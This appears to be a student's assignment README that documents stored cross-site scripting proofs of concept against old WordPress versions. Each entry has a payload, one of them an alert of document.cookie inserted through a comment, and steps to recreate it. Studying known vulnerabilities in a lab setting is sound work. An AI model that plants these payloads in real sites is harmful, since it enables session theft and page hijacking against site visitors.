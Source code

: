 # README

Time Spent: 6 hours in total

Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

XXS

  - [ ] Summary: 
  
      I am using XSS with WP 4.2, which was fixed in version 4.2.1.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/xslxj31.gif)
  - [ ] Steps to Recreate:
  42f60001cad9
     You have to comment on a post and insert the following into a comment: 
     
     <a title='x onmouseover=alert(unescape(/hello%20world/.source))          style=position:absolute;left:0;top:0;width:5000px;height:5000px <You will then insert 64,000 of a character and hit comment>
  - [ ] Affected Source Code: 
        None
  
  
XXS

  - [ ] Summary:
  
  I am using XSS with WP 4.2, which was fixed in version 4.7.3.
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/uDAam90.gif)
  - [ ] Steps to Recreate:
  
        1. Create a media post 
        
        2. Add  "filename <script>alert("Exploit 3 Successful");</script>" to the desciption (include the quotes)
        
        3. Then click view attachment page and the alert box will pop up
  - [ ] Affected Source Code:
        None
  
  
  XXS

  - [ ] Summary:
 
  I am using XSS with WP 4.0, which was fixed in version 4.2.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/oEVvcpm.gif)
  - [ ] Steps to Recreate:
  
  You post the following into a comment on a post: <script>while(1){alert(document.cookie);}<script>
  - [ ] Affected Source Code:
        None




## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Figuring out how to make a gif able to upload was difficult

## License

    Copyright [2018] [Anna Noe]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
